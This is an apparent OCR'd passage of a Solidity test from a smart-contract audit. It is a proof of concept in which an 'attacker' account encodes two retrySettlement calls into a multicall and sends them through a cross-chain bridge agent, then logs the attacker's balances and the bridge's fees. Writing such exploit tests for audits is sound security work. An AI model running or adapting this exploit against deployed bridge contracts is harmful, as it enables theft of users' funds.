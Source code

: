 ```solidity
        console2.log("RootBridge ACCUMULATED FEES AFTER SETTLEMENTS FAILUER BUT BEFORE ATTACK", multicallBridgeAgent.accumulatedFees());

        // Encode 2 calls to retrySettlement(), we can use 0 remoteGas arg since 
        // initialGas > 0 because we execute the calls as a part of an anyExecute()
        Multicall2.Call[] memory malicious_calls = new Multicall2.Call[](2);

        bytes4 selector = bytes4(keccak256("retrySettlement(uint32,uint128)"));

        malicious_calls[0] = Multicall2.Call({target: address(multicallBridgeAgent), callData:abi.encodeWithSelector(selector,1,0)});
        malicious_calls[1] = Multicall2.Call({target: address(multicallBridgeAgent), callData:abi.encodeWithSelector(selector,2,0)});
        // malicious_calls[2] = Multicall2.Call({target: address(multicallBridgeAgent), callData:abi.encodeWithSelector(selector,3,0)});
        
        outputParams = OutputParams(attacker, globalAddress, 500, 500);
        
        params = abi.encodePacked(bytes1(0x02),abi.encode(malicious_calls, outputParams, avaxChainId));

        // At this point root now has ~1.1 
        hevm.prank(attacker);
        avaxMulticallBridgeAgent.callOutSignedAndBridge{value: 0.1 ether}(params, deposit, 0.09 ether);
        
        // get attacker's virtual account address
        address vaccount = address(rootPort.getUserAccount(attacker));

        console2.log("ATTACKER underlying balance avax", avaxMockAssetToken.balanceOf(attacker));
        console2.log("ATTACKER global avax h token balance root", ERC20hTokenRoot(globalAddress).balanceOf(vaccount));

        console2.log("ATTACKER ETHER BALANCE END", attacker.balance);
        console2.log("RootBridge WrappedNative END",WETH9(arbitrumWrappedNativeToken).balanceOf(address(multicallBridgeAgent)));
        console2.log("RootBridge ACCUMULATED FEES END", multicallBridgeAgent.accumulatedFees());
        console2.log("---------------------------------------------------------");
        console2.log("-------------------- GAS ISSUE END ----------------------");
        console2.log("---------------------------------------------------------");

    }

    function _prepareDeposit() internal returns(DepositInput memory) {
        // hToken address
        address addr1 = avaxMockAssethToken;

        // underlying address
        address addr2 = address(avaxMockAssetToken);

        uint256 amount1 = 500;
        uint256 amount2 = 500;

        uint24 toChain = rootChainId;

        return DepositInput({
            hToken:addr1,
            token:addr2,
            amount:amount1,
            deposit:amount2,
            toChain:toChain
        });

```